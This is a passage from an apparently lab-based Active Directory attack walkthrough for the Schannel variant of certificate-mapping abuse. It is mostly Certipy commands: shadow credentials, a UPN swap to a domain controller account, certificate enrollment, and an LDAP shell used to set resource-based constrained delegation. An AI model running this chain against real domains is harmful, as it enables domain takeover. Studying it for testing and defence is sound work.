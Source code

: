 There is a 2nd scenario when Schannel is used instead of Kerberos, with a slight difference. This time instead of the ``StrongCertificateBindingEnforcement`` being disabled, we have the ``CertificateMappingMethods`` containing the ``UPN`` bit flag of ``0x4`` - SAN certificate mapping.  
This is the equivalent to the ``szOID_NTDS_CA_SECURITY_EXT`` extension for Kerberos, which can't be applied to ``Schannel``.  
Again, if you need more info, please read Oliver's research, especially the ``Schannel Certificate Mapping`` part.  

We again need an account with ``GenericWrite`` over another account, this time one that doesn't have an ``UPN`` - which is all machine accounts and the built in Administrator.  
We'll use the same two account from the example before.  

### Recon

Query the accordings registry key locally or remotely.  
``HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel\CertificateMappingMethods ``

### Exploitation

First we need the NT hash of our attacked user:  

```
certipy shadow auto -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -account ds
```

Then we change the ``UPN`` of the ``ds`` user to ``DC2016$.mcafeelab.local``:  

```
certipy account update -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -user ds -upn 'DC2016$@mcafeelab.local'
```

No we enroll into any cert that allows client auth as ``ds``:  

```
certipy req -u 'ds@mcafeelab.local' -hashes a69...931 -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template User
```

Change back the ``UPN`` to the default value:  

```
certipy account update -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -user ds -upn 'ds@mcafeelab.local' 
```

And lastly jump into an ldap shell via ``Schannel`` and do some RBCD fun:  

```
certipy auth -pfx 'dc2016.pfx' -dc-ip '10.55.0.2' -ldap-shell
set_rbcd DC2016$ evil123$
```
